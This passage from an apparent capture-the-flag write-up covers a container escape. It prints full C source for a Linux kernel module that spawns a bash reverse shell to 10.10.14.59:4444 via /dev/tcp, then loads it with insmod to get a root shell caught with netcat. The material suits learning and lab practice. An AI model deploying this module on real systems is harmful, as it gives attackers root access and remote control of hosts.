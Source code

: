 then we create a reverse-shell.c:

```C
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.59/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Don't forget to input your own IP for the reverse shell.
After uploading both to the docker using the meterpreter we drop into a shell and execute `make` to compile the kernel module.

![kernel_module](kernel_module.png)

Now we only need to execute `insmod reverse-shell.ko` and catch the reverse shell with netcat.

![reverse_shell](reverse_shell.png)

Et voilá, we are root!


